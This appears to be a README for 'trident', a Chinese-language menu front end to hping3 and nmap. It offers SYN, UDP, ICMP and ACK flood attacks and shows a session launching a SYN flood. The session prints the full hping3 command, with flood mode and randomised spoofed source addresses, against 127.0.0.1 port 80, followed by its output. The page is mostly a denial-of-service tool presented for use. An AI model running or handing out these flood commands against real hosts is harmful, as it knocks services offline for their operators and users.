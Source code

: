 # trident

confront the tough with toughness go away forever

---

当前菜单: 首页 

1: HPING3攻击  2: NMAP扫描

3: 设置        

q: 退出  b: 返回  0: 首页  s: 设置

请输入命令号: 


---

当前菜单: HPING3攻击 

1: SYN Flood   2: UDP Flood

3: ICMP Flood  4: ACK Flood

q: 退出  b: 返回  0: 首页  s: 设置

请输入命令号: 1
目标 IP: 127.0.0.1
数据包大小(默认120): 
持续时间(秒，默认60): 
目标端口(默认80): 
攻击类型: SYN
目标: 127.0.0.1:80
命令: hping3 -c 60000 -d 120 -S -p 80 --flood --rand-source 127.0.0.1


按任意键继续...(退出 Ctrl+C)
开始执行攻击...

[ | ] 正在执行攻击...HPING 127.0.0.1 (lo 127.0.0.1): S set, 40 headers + 120 data bytes
hping in flood mode, no replies will be shown
[ | ] 正在执行攻击...